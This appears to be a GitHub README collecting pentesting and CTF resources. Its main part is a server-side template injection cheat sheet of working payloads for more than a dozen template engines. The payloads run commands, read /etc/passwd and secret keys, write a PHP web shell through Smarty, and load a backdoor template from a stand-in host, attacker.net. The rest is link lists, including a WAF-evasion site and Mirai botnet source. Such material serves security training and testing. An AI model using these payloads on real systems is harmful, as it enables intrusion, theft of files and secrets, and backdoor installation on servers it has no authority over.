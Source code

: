 (insert good title here)
================

- [Cheatsheets](#Cheatsheets)
- [Enumeration](#Enumeration)
- [Privelege Escalation](#Privilege-Escalation)
- [Steganography](#Steganography)
- [Cryptography](#Cryptography)
- [Reverse Engineering](#Reverse-Engineering)
- [Wordlists](#Wordlists)
- [Learn To](#Learn-To)

----------------------------------

## Cheatsheets

### Server Side Template Injection (SSTI)

##### Polyglot:
```
${{<%[%'"}}%\
```

##### FreeMarker (Java):
```
${7*7} = 49
<#assign command="freemarker.template.utility.Execute"?new()> ${ command("cat /etc/passwd") }
```
##### (Java):
```
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
${T(java.lang.System).getenv()}
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
```
##### Twig (PHP):
```
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
```
##### Smarty (PHP):
```
{$smarty.version}
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
````
##### Handlebars (NodeJS):
```
wrtz{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```
##### Velocity:
```
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```
##### ERB (Ruby):
```
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
```
##### Django Tricks (Python):
{% debug %}
{{settings.SECRET_KEY}}
```
#Tornado (Python):
{% import foobar %} = Error
{% import os %}{{os.system('whoami')}}
```
##### Mojolicious (Perl):
```
<%= perl code %>
<% perl code %>
```
##### Flask/Jinja2: Identify:
```
{{ '7'*7 }}
{{ [].class.base.subclasses() }} # get all classes
{{''.class.mro()[1].subclasses()}}
{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}
```
##### Flask/Jinja2: 
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```
##### Jade:
```
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
```
##### Razor (.Net):
```
@(1+2)
@{// C# code}
```

If you need to evade WAF check this site out: https://gusralph.info/jinja2-ssti-research/


[Source](https://blog.cobalt.io/a-pentesters-guide-to-server-side-template-injection-ssti-c5e3998eae68)
[More Useful Information](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
[Even More](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#twig)

## Enumeration

https://github.com/darkoperator/dnsrecon

## Privilege Escalation

### Windows

##### Living off the Land
https://lolbas-project.github.io/

### Linux

##### Living off the Land

https://gtfobins.github.io/



## Steganography

https://29a.ch/photo-forensics/#forensic-magnifier
https://futureboy.us/stegano/decinput.html
https://github.com/DominicBreuker/stego-toolkit
https://www.irongeek.com/i.php?page=security/unicode-steganography-homoglyph-encoder
https://stegonline.georgeom.net/upload
https://lukeslytalker.pythonanywhere.com/

## Cryptography

https://gchq.github.io/CyberChef/cyberchef.htm
https://www.nayuki.io/page/automatic-caesar-cipher-breaker-javascript
http://fbcs.bplaced.net/multi_encoder_decoder.html
https://quipqiup.com/
https://mothereff.in/bacon
http://www.spammimic.com/
https://crypto.interactive-maths.com/affine-cipher.html

## Reverse Engineering

https://onlinedisassembler.com/static/home/index.html

## Wordlists

https://wiki.skullsecurity.org/Passwords

## Learn To

### Hack
https://app.hackthebox.eu/dashboard
https://academy.hackthebox.eu/dashboard
https://www.hackthissite.org/
https://www.hacksplaining.com/
https://www.hacking-lab.com/index.html
https://cryptopals.com/
https://ocw.cs.pub.ro/courses/cns
https://www.pentesteracademy.com/
https://tryhackme.com/
https://learn.hacktify.in/collections?category=courses&page=1

### Code
http://www.codecraftgame.org/
https://codingbat.com/
http://www.programmr.com/zone/cpp
http://www.codecademy.com/dashboard

## Misc (yet to sort)


https://www.semanticscholar.org/paper/Text-Steganographic-Approaches%3A-A-Comparison-Agarwal/5e9e19106b8deff39118530811672d7b0fb83670?p2df
https://github.com/jgamblin/Mirai-Source-Code

